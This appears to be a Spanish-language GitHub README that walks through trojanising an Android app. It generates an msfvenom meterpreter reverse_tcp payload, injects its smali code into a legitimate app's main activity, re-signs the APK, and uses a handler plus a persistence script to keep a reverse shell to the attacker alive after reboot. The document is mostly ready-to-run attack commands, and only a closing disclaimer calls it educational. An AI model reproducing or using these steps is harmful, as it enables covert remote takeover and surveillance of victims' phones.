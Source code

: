 # Android-11+ Persistence-Payload-with-msfvenom-and-Custom-Service-Injection

Crea un payload persistente para dispositivos Android actualizado debido a que el metodo antiguo fue parcheado para las versiones mas recientes de Android, utilizando **msfvenom** para generar un servicio que se ejecuta automáticamente tras el reinicio del dispositivo, aprovechando el receptor BOOT_COMPLETED en el **AndroidManifest.xml**

-Este script fue probado en **Android 13**


![image](https://github.com/user-attachments/assets/b7eb875a-7ea9-45a3-889a-f36d00c665ec)

## Generación de Payload con Msfvenom

Para generar un payload de Android con `msfvenom`, utilizamos el siguiente comando. Este comando crea un archivo APK con un payload que ejecutará un servicio en segundo plano en el dispositivo víctima. Asegúrate de personalizar el nombre del archivo y la dirección IP de tu máquina atacante.

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<tu_ip> LPORT=<tu_puerto> -o payload.apk
```

## Descompilación del Payload y la Aplicación Base

Una vez generado el payload, el siguiente paso es descompilarlo junto con la aplicación base en la que se va a inyectar el payload . Para hacerlo, utilizamos `apktool` (herramienta que ya viene preinstalada en Kali Linux).

El comando para descompilar es el siguiente:

```bash
apktool d -f <archivo.apk> -o <directorio_de_salida>
```


![image](https://github.com/user-attachments/assets/8d4833dc-2039-482a-acd8-b622c8063218)



## Integración del Payload en la Aplicación Base

Después de descompilar tanto el payload como la aplicación base, el siguiente paso es integrar el payload en la app base. Sigue estos pasos:

1. **Copiar los archivos del Payload**:
   Debes copiar todos los archivos del payload en la ruta `smali/com/metasploit/stage/Payload.smali` dentro de la carpeta de la app base. Para ello, crear los directorios y usar el siguiente comando para copiar los archivos al directorio correspondiente.

```bash
   cp -r payload/smali/com/metasploit/stage/* original/smali/com/metasploit/stage/
```

2. **Modificar el archivo AndroidManifest.xml**:
  En el AndroidManifest.xml de la aplicación base y localiza la sección <activity> que corresponde a la actividad principal es decir el *android.intent.action.**MAIN***. Modifica el archivo .smali de la actividad principal para que apunte al payload


```xml
  <activity android:name="com.paquete.MainActivity">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>

```
3. **Modificar el Archivo .Smali**
   Una vez identificado el archivo de esa actividad, en el metodo ***onCreate***, insetar la siguente linea:
Busqueda de el metodo:
```bash
   cat file | grep -n onCreate
```
   
```bash
   invoke-static {p0}, Lcom/metasploit/stage/Payload; ->onCreate(Landroid/context/Context;)V
```


![image](https://github.com/user-attachments/assets/1d49457a-d11e-4424-b851-2b8071a97afc)


3. **Recompilar la Aplicación:**
    Una vez inyectado el payload a la aplicación base, recompilar la aplicación con el siguiente comando:


```bash
   apktool b output_base_app -o modified_app.apk
```

4. **Firmar el APK:**
 Finalmente, firmar el APK para poder instalarlo en un dispositivo Android. Utilizando jarsigner y key tool para firmarlo:

### Generación de llave
```bash
   keytool -genkey -V -keystore ./key.keystore -alias "alias" -keyalg RSA -keysize 2048 -validity 1000
```

### Firma de el APK:

```bash
   jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore ./key.keystore ruta/APP.apk "alias"
```

## Explotación y ejecucion de persistencia

- Una vez instalada la app en el telefono *Target*, e iniciada una sesion *meterpreter*, subir el archivo ***Persistence.sh*** el cual puede ser modificado para el tiempo entre intervalos de intentos de establecer una ***reverse_shell***.

```bash
   msfconsole -q -x "use exploit/multi/handler ; set payload android/meterpreter/reverse_tcp; set LHOST "host"; set LPORT 443; run"
```

![image](https://github.com/user-attachments/assets/3463b265-6eec-4d0d-bc46-e44cacd759e6)



> **Advertencia**: Este material y las técnicas descritas en este repositorio son **estrictamente para fines educativos y de investigación**. El uso de herramientas de penetración y explotación debe realizarse solo en sistemas que **tienes permiso explícito** para evaluar. El uso no autorizado de estas técnicas en sistemas ajenos está **prohibido** y es **ilegal** en muchas jurisdicciones. Cualquier daño o impacto negativo causado por el uso inapropiado de este contenido es responsabilidad exclusiva del usuario.

> Se recomienda a los usuarios que trabajen en entornos controlados, como **laboratorios de pruebas**, y que cumplan con todas las leyes y regulaciones locales relacionadas con la seguridad informática y el hacking ético. ***happy hacking :D***

